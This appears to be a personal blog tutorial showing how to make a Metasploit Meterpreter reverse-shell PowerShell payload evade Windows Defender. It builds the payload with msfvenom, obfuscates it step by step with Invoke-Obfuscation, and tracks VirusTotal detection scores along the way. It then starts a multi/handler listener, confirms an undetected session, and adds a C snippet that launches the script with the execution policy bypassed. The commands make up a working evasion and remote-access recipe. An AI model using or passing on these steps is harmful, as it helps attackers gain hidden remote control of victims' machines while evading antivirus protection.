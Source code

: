 ```yaml
---
title: Obfuscation Powershell Scripting Bypass Defender
published: true
---
```


<!--
Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.


[Link to another page](another-page).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-->

# [](#header-1) What is Obfuscation ?

In software development, obfuscation is the act of creating source or machine code that is difficult for humans or computers to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even to create a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry

# [](#header-2) Why could it Bypass Windows Defender ?

Windows defender is antivirus provided by windows to avoid infection from malware and trojan. Windows Defender collects trillions of data every day. It uses these data to take advantage and learn treat pattern to understand behaviour of malware.
The goal from obfuscation is to render the code hard to understand for the antivirus and make it upset. So Windows Defender won't able to classified the program as trojan and skip all detected potential treat for our malware.

<img src="../assets/example_obfuscation.png">

# [](#header-3) How to obfuscate our program ?

It exists severals methods and it depends by the programmation language used. As you known, each language has its syntax and its rules. Then compiled and interpreted language have different process to render it executable by machine.
In this example I will play with powershell syntax rules to obfuscate my script
and take advantage to deficient detection to bypass antivirus. 
Let's take an example with script in powershell. I will use basic common malware detected by all antivirus and make it undetectable by improvement.

# [](#header-4) Methodology & Results

To be honnest, there is not universal methodology but I build my own to make efficient test and trying to improve it to check difference at each level of obfuscation.

First of all, let's create basic meterpreter in powershell.
```console
msfvenom -p windows/x64/meterpreter/reverse_tcp lport=4444 lhost=192.168.1.66 -f psh -o basic_meterpreter.ps1
```
Now let's check the bad score this sample malware has on [https://virustotal.com](https://virustotal.com)


<img src="../assets/basic_malware.png">

As you can see our malware has very bad score. It is easily detectable by common antivirus.

I discovered a nice repository specially consacred to obfuscate powershell script. In my case I will use the Invoke-Obfuscation module that is provide different methods that we are going to test: [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

**Important: you should disable your antivirus when you use it**

```console
git clone https://github.com/danielbohannon/Invoke-Obfuscation
cd Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```


<img src="../assets/invoke-obs.png">

Let's set SCRIPTPATH variable and point it to your meterpreter script.

```console
SET SCRIPTPATH path/to/my/basic_meterpreter.ps1
```
Let's start by compress our code and hold it ine one line.
We choose Compress option. 
Then it generates a new script. Just copy it and save it. Now let's test if its has consequences on detection score

<img src="../assets/obsfuscate_one_line.png">

More or less, it's almost the same score. It's not really efficient.

Now it exist a basic method to obfuscate that is the concatenation of string. In powershell scripting it's usually used to bypass policy restriction but let's try if it has influence on the detection score.

I just choose the STRING option and apply the concatenation method on my compressed oneline script.

<img src="../assets/compress_and_concat.png">

TADAAAAM, it reduces considerably the detection by dividing the previous score by ~2. At this level, we can see it evades sandbox from antivirus.

Okay but now let's use the TOKEN option that is use method to obfuscate part of our code like variable, type, comment, etc...
As i'm greedy man, I obviously choose to obfuscate all differents syntax we can find my powershell script.
I just choose option ALL and apply it to my compressed_concatenation.ps1 script. Let's check the score

<img src="../assets/obsfuscate_compress_concat_token.png">

NIIIICE, it reducing it considerably by two. Ok now at this stage I tried to execute it on my machine to see what beheviour has Windows Defender. I just re-enabled all settings from defender to make it working.

<img src="../assets/defender.png">

Let's just right-click on my script and launch quick analyzing from Windows defender

<img src="../assets/no_treat.png">

okay let me translate, french is like obfuscation sometimes... it says.. NO TREAT DETECTED ! Let's launch a listener server from metasploit to test it.

```console
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost 0.0.0.0; set exitfunc thread; set lport 4444; set ExitOnSession false; exploit -j"
```

Now, execute our script to see what hapen.

<img src="../assets/proof.png">

A session is etablished without killing session by Windows Defender !
Our script has actually evasion mode !

# Potential improvement

The problem with powershell script is that some machines have execution policy restriction. That means, it need the authorization of the system or the user to accept to execute our script. Typically we can run for example an innocent C program that is call our powerscript with some options that avoid restriction.

```c
system("powershell -ExecutionPolicy Bypass -F obfuscation_bypass_defender.ps1")
```

It's one method among severals, you can take a look this if you are interested: [https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)

# Proof of concept



# References

* [https://en.wikipedia.org/wiki/Obfuscation_(software)#:~:text=In%20software%20development%2C%20obfuscation%20is,roundabout%20expressions%20to%20compose%20statements.](https://en.wikipedia.org/wiki/Obfuscation_(software)#:~:text=In%20software%20development%2C%20obfuscation%20is,roundabout%20expressions%20to%20compose%20statements.)

* [https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide-part-2](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide-part-2)

* [https://www.youtube.com/watch?v=6xexyQwG7SY&t=770s&ab_channel=HackerSploit](https://www.youtube.com/watch?v=6xexyQwG7SY&t=770s&ab_channel=HackerSploit)